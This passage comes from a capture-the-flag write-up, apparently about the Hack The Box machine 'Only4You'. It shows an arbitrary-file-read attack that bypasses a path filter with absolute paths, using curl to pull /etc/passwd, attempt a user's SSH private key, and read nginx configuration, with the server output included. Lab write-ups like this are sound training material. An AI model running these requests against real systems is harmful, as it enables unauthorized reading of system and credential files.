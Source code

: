 Moving up a folder with `../` has been prohibited, but python will often accept absolute paths as well. To check for this, we can simply try to download /etc/passwd:

```bash
$ curl http://beta.only4you.htb/download -d "image=/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
<...SNIP...>
john:x:1000:1000:john:/home/john:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
neo4j:x:997:997::/var/lib/neo4j:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
```

### Using Arbitrary File Read to retrieve main site source code

By defining the absolute path of the file we wish to access, we can still bypass the rudimentary filters placed. Note for later, the system has two users: john and dev.

Looking for ssh keys, unfortunately we cannot acquire:
```html
$ curl http://beta.only4you.htb/download -d "image=/home/john/.ssh/id_rsa"
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/list">/list</a>. If not, click the link.
```
In this case, redirection is the result of a file not existing.

It would be nice if we could view the source code associated with the main website, `only4you.htb`. To access, we need to find a way to know the folder names and location of files.

Using nginx configuration files:
```
$ curl http://beta.only4you.htb/download -d "image=/etc/nginx/sites-enabled/default"
server {
    listen 80;
    return 301 http://only4you.htb$request_uri;
}

server {
        listen 80;
        server_name only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/only4you.htb/only4you.sock;
        }
}

server {
        listen 80;
        server_name beta.only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/beta.only4you.htb/beta.sock;
        }
```